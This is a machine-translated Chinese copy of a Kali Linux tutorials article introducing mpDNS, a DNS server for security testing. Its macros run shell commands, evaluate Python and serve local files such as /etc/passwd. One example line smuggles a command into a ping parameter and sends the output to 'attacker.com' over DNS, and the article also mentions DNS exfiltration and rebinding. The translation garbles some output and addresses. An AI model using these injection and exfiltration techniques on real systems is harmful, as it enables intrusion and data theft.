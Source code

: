 # mpDNS:多用途 DNS 服务器 2019

> 原文：<https://kalilinuxtutorials.com/mpdns-multi-purpose-dns-server/>

[![mpDNS : Multi-Purpose DNS Server 2019](img//4d933de9458e34856ee9de9dd223b3b3.png "mpDNS : Multi-Purpose DNS Server 2019")](https://1.bp.blogspot.com/-qVUXWLPBjgI/XXS8LaFCsKI/AAAAAAAACYw/h_5lnAwiL2oZLuLHIr3moqlh4H2Qn9FCwCLcBGAs/s1600/mpDNS%2B%25281%2529.png)

**mpDNS** 又名多用途 DNS 服务器是一个简单、可配置的“**克隆&运行**DNS 服务器，具有多种有用的功能。

*   应该在 Python 2 和 3 上工作
*   names.db ->保存所有定制记录(参见示例)
*   简单通配符，如*.example.com
*   捕获 unicode dns 请求
*   自定义操作也称为宏:
    *   `**{{shellexec::dig google.com +short}}**` *- >执行 shell 命令并响应结果*
    *   `**{{eval::res = '1.1.1.%d' % random.randint(0,256)}}**` *- >评估你的 python 代码*
    *   `**{{file::/etc/passwd}}**` *- >响应本地文件内容*
    *   `**{{resolve}}**` *- >将 DNS 请求转发到本地系统 DNS*
    *   `**{{resolve::example.com}}**` *- >解决 example.com 而不是原始记录*
    *   `**{{echo}}**` *- >用对等地址回复*
    *   `**{{shellexec::echo %PEER% %QUERY%}}**` *- >变量的使用*
*   支持的查询类型:`A`、`**CNAME**`、**、**、`**TXT**`
*   使用`**./mpdns.py -e**`更新`**names.db**`记录，无需重启/重新加载

大量基于[https://github . com/circuits/circuits/blob/master/examples/DNS server . py](https://github.com/circuits/circuits/blob/master/examples/dnsserver.py)

用法:`**./mpdns.py**`

*   用`**./mpdns.py -e**`编辑 **names.db** 不需要重启

**进攻和防守目的**

*   您需要一个轻量级的简单 dns 服务器解决方案用于测试目的(不是生产！)
*   测试 web 应用程序中的各种盲目注入漏洞*(例如。* `**/ping.php?ip=$(dig $(whoami).attacker.com)**` *)*
*   在一个`TXT`查询中轻松渗透 65K 数据
*   DNS 重新绑定
*   对特定查询执行自定义宏操作(在恶意软件分析实验室环境中很有用)
*   还有更多。它是高度可定制的。

**安装**

**git 克隆 https://github.com/nopernik/mpDNS**

**局限性**

*   由于 UDP 数据报限制为 65535 字节，DNS 响应被限制为大约 65200 字节
    ，这一限制适用于被分割成 256 字节块的`TXT`记录，直到响应达到最大允许值 65200 字节
    ，因此带有宏`**{{file:localfile.txt}}**`的`TXT`记录被限制为 65200 字节。
*   不支持嵌套通配符 **`test.*.example.com`**
*   在`**{{resolve::example.com}}**`宏中不支持自定义 DNS 服务器解析器
*   `**TTL**`始终设置为 **0**

**也可阅读-[Http 请求走私者:为打嗝套件](https://kalilinuxtutorials.com/http-request-smuggler-extension-burp-suite/)扩展 **

**例子**

**names.db 示例:**

**> >空配置将导致空但有效的响应
> > Unicode 域名不受支持，但仍可被服务器捕获。
> >例如мама-сервер-unicode.google.com 将被捕获，但带有 SERVFAIL 响应**
passwd.example.com TXT { { file::/etc/passwd } } #注释被忽略
shellexec TXT { { shellexec::whoami } }
eval TXT { { eval::import random；RES = random . randint(1500)} }
resolve 1a { { resolve } }
resolve 2a { { resolve::self } } #同上
resolve 3a { { resolve::example . com } }
blabla.com A 5.5.5.5
* A 127 . 0 . 0 . 1
* . example . com A 7.7.7.7
c1.example.com CNAME c2.example.com
c2.example.com CNAME c3.example.com
c3.example.com CNAME Google . example . com【T11

**带有 names.db 示例的示例输出:**

来自数据库的常规解析:dig test.example.com @ localhost

；；回答章节:
test.example.com。0 在 8.8.8.8

mpDNS 输出:–**来自 127 . 0 . 0 . 1:57698-【test.example.com 的请求。——>8.8.8.8(一)**

递归 CNAME 分解:`**dig c1.example.com @localhost**`

；；问题板块:
；c1.example.com .在一个

；；回答部分:
c1.example.com。0 在 c2.example.com CNAME。【c2.example.com】T4。0 在 c3.example.com CNAME。
c3.example.com。0 在 google.example.com CNAME。
google.example.com。0 在 google.com CNAME。
google.com。0 在 216.58.206.14

**mpDNS 输出:**

>>请求来自 127 . 0 . 0 . 1:44120-> c1.example.com。-> c2.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->c2.example.com->c3.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->c3.example.com->google.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->google.example.com->google.com(CNAME

**通配符解析:dig not-in-db.com @ localhost**

；；回答章节:
not-in-db.com。127.0.0.1 中的 0

mpDNS 输出:–**来自 127 . 0 . 0 . 1:38528-【not-in-db.com 的请求。- > 127.0.0.1 (A)**

**通配符子域解析:dig wildcard.example.com @ localhost**

；；回答章节:
wildcard.example.com。0 在 7.7.7.7

mpDNS 输出:–**来自 127 . 0 . 0 . 1:39691-【wildcard.example.com 的请求。——>7.7.7.7(一)**

**转发请求宏:dig google.com @ localhost**

；；回答章节:
google.com。0 在 172.217.22.110

mpDNS 输出:–**来自 127 . 0 . 0 . 1:53487-【google.com 的请求。- > {{resolve::self}}(一)**

自定义域宏的转发请求:dig notgoogle.com @ localhost

；；回答章节:
notgoogle.com。0 在 172.217.22.110

mpDNS 输出:–**来自 127 . 0 . 0 . 1:47797-【notgoogle.com 的请求。- > {{resolve::google.com}}(一)**

**通过 TXT 查询文件内容宏:dig TXT passwd.example.com @ localhost**

；；回答章节:
passwd.example.com。0 IN TXT " root:x:0:0:root:/bin/bash \ 010 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin \ 010 bin:x:2:2:bin:……stripped "

mpDNS 输出:–**来自 127 . 0 . 0 . 1:38805->passwd.example.com 的请求。->**[**' root:x:0:0:root…(2808)'**](TXT)

通过 TXT 查询定制 python 代码宏:dig txt eval @localhost

；；回答部分:
eval。TXT“320”中的 0

mpDNS 输出:–**来自 127.0.0.1 的请求:33821 - > eval。->**[**【320】**](TXT)

通过 TXT 查询的 Shell 命令宏:dig txt shellexec @localhost

；；回答部分:
shellexec。TXT“root”中的 0

mpDNS 输出:–**来自 127.0.0.1:50262 - > shellexec 的请求。- >** [**【根】**](TXT)

[Download](https://github.com/nopernik/mpDNS)
